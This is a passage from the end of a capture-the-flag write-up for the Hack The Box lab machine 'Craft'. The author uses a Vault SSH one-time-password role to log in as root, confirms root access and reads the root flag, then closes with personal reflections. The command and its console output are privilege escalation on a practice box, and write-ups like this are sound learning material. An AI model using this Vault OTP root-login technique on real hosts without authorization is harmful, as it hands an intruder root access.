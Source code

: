 Also in the artcile is a single CLI command which can create a new OTP and invoke SSH with the correct parameters to connect to the host: `vault ssh-role otp_key_role -mode otp username@x.x.x.x` 

To craft my command, it looks like all I need to do is fill in the blanks with the data I found and it should work?

```console
gilfoyle@craft:~$ vault ssh -mode=otp -role=root_otp root@craft.htb
Vault could not locate "sshpass". The OTP code for the session is displayed
below. Enter this code in the SSH password prompt. If you install sshpass,                                        
Vault can automatically perform this step for you.                                                                
OTP for the session is: ee020ae9-eec7-e493-2b0c-ee4d010c3664
The authenticity of host 'craft.htb (127.0.1.1)' can't be established.
ECDSA key fingerprint is SHA256:sFjoHo6ersU0f0BTzabUkFYHOr6hBzWsSK0MK5dwYAw.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'craft.htb' (ECDSA) to the list of known hosts.


  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/



Password: 
Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 27 04:53:14 2019
root@craft:~# id
uid=0(root) gid=0(root) groups=0(root)
root@craft:~# cat /root/root.txt
831d64ef54d92c1af795daae28a11591
```

# Conclusion

This was one of the least-ctf like boxes I've done so far. It was both frustrating and fun, I learned a ton on this box, made some embarassing mistakes that cost me a whole lot of time that should have been just minor speed bumps, but enjoyed it thoroughly. 
